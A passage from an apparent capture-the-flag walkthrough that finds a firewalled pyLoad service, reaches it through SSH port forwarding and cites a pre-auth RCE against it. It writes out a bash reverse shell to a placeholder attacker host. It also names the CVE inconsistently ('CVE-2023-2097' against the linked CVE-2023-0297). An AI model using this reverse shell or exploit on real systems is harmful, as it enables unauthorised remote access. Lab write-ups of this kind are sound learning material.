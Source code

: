 ```
After reading the output we find something intersting:

![](./images/20230914114818.png)

here we can see the ports that are running and active in the system, it's highlighted in red, so why don't we take a look at it.


using this command:

```
ss -natlp
-n: to give us the number of the port.
-a: to display all sockets.
-l: to specify listening ports.
-t: tcp ports.
-p: to display the proccesses of the socket.
```

![](./images/20230914115227.png)

Here we can see that there is a service running on port 8000, but in our enumeration phase we couldn't find anything related, so maybe it was blocked by a firewall, so it's time to see what is this service.

We will use a technique called "Port forwarding", i recommend you this article to read about it:
Link: [Article On Medium ](https://zakaria17.medium.com/linux-privilege-escalation-through-local-and-remote-port-forwarding-with-ssh-51c7187495dc)

So basically we will just forward the port that is running locally to be accessible from our local machine doing this:

```
ssh -L 8888:127.0.0.1:8000 sau@<ip address>

8888: to specify the port that the service will be ran on locally.

sau@<ip address>: the target machine.
```

After executing it and entering the password of the user "sau",
if we went to our browser and typed "127.0.0.1:8888" we will see the following:

![](./images/20230914124150.png)

Another logging service.....

let's search about pyLoad a little bit, and we will find that it has a CVE-2023-2097, and it's vulnerable to RCE (remote code execution).

The CVE on gitHub: [Link.](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

basically we can use curl to issue a POST request to this page and inject some commands in it, so we can have it to spawn a shell for us!


First from our remote ssh shell we will make a bash reverse shell file called "rev" and put it in /tmp.

bash reverse shell command:

```
bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1
```

```